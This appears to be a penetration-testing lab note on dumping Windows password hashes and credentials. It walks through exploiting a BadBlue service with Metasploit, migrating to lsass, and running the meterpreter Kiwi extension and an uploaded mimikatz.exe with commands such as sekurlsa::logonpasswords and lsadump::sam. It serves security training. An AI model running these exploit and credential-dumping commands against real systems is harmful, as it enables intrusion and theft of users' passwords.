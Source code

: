 # C - Dumping Hashes with Mimikatz

### **Mimikatz**

* Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
* The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords.
* Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
* We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

> Note: Mimikatz requires elevated privileges in order to run correctly.

### **Practical Demonstration**

#### **Initial Access**

`nmap -sV $ip` - scan for vuln service.

```
# using metasploit to exploit the "BadBlue service"
search badblue
use exploit/windows/http/badblue_passthru
options
set RHOSTS $ip
run
# we get a meterpreter.
sysinfo
getuid
pgrep lsass  # migrate to a 64bit process in this case, the lsass process.
getuid # we have NT AUTHORITY.
```

#### Using Meterpreter Extension \[kiwi]

```bash
# after gaining administrative privileges.
# we can now use the kiwi extension
load kiwi
? # displays the kiwi help commands.
creds_all # dumps all credentials.
lsa_dump_sam #Dump NTLM hashes from the SAM memory.
lsa_dump_secrets #Dump secrets from LSA.
```

#### Using the actual  Mimikatz executable

```bash
# 1
# navigate to the C:\Temp directory from the meterprester session.
# kali already has the mimikatz file in it, so we can directly upload it to the vicim Temp dir.
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe #Upload x64 mimikatz executable onto the target system.

# 2
# open a cmd prompt session
shell
.\mimikatz.exe #Launch mimikatz within the target system.

# 3
# Check if current user has the privileges required to use mimikatz.
privilege::debug # if it tells you [Privilege '20' OK] then you are good to go.

# 4
lsadump::sam # Dump NTLM hashes and other info from the SAM memory.
lsadump::secrets # Dump secrets from the LSA.
sekurlsa::logonpasswords # Reveal clear-text passwords that the system might have stored.
# but the system has been configured correctly, we cant find any clear text password.

```

